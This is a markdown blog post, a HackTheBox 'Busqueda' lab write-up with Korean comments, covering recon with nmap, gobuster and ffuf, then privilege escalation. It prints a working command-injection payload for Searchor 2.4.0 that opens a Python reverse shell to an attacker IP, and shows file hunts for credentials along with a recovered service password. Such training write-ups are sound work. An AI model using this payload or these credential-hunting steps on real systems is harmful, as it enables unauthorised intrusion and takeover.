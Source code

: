 ```yaml
---
layout: post
title: HackTheBox Busqueda
subtitle: Busqueda WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - Linux
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-21-Busqueda/a73dbffe4ae24d783de043ae29185d39_MD5.jpeg)
## Target - 10.129.228.217
### Nmap
```bash
nmap -sC -sV -Pn -p- -oN Busqueda 10.129.228.217
```
![](/assets/images/posts/2025-03-21-Busqueda/b3817d553dd4d22d16cf8b0efa0f03c2_MD5.jpeg)
### WEB
```bash
# host 등록
echo "10.129.228.217 searcher.htb" | sudo tee -a /etc/hosts

# dir fuzz
gobuster dir -u searcher.htb -w /usr/share/wordlists/dirb/common.txt

# subdomain fuzz
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.searcher.htb" -u http://searcher.htb -fc 302

# opensource version
searchor 2.4.0
```
![](/assets/images/posts/2025-03-21-Busqueda/ae88064ccb2df41d3a185b7b1dd63698_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/d527baf6f626258ec6a5aefbdfb75d0f_MD5.jpeg)

### Searchor 2.4.0 Exploit
```bash
# https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
'),exec('import+socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.36",8000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')#
```
![](assets/images/posts/2025-03-21-Busqueda/116033061580fae80a50f281c20e5c3c_MD5.jpeg)

### Privilege Escalator
```bash
# upgrade tty
python3 -c 'import pty; pty.spawn("/bin/bash")'

# 숨김 파일 찾기 
find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep svc

# cody == svc
cat /home/svc/.gitconfig

# web group 파일들 찾기
find / -group www-data -exec ls -ldb {} \; 2>/dev/null

# git config 열람
cat /var/www/app/.git/config

# svc : jh1usoih2bkjaspwe92
sudo -l
sudo /usr/bin/python3 /opt/scripts/system-checkup.py -h

# docker inspect : https://docs.docker.com/engine/cli/formatting/


```
![](/assets/images/posts/2025-03-21-Busqueda/9fbef62124fd4ea70270d25a9e5c24cf_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/19944986f62535d922b99895ec6831b6_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/83b4b2d1100c52bec7b0a8012af85436_MD5.jpeg)

![](/assets/images/posts/2025-03-21-Busqueda/04811c4fabbd651f3e83a6235188d013_MD5.jpeg)

![](/assets/images/posts/2025-03-21-Busqueda/664165d9e5013cf703cb01bb113f3af9_MD5.jpeg)![](/assets/images/posts/2025-03-21-Busqueda/1ea6a57afc343c3fef42ed16746a7e30_MD5.jpeg)
